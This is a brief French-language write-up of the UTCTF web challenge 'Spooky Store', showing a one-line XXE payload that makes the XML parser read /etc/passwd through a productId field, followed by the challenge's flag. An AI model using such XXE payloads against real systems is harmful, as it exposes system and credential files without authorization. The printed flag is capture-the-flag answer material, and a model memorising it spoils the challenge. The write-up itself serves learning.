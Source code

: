 # Write Up d'un challenge web UTCTF

Le challenge Spooky Store étais un classique site fais avec bootstrap, il permettais de récuperer les cordonné de certains endroids via des documents xml, j'ai donc tout simplement tenté une XXE (XML External Entity) avec le payloads suivant: 
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><locationCheck><productId>&test;</productId></locationCheck>
``` 
Et ça m'a sorti le flag tout simple :) 

Flag: `utflag{n3xt_y3ar_go1ng_bl1nd}`
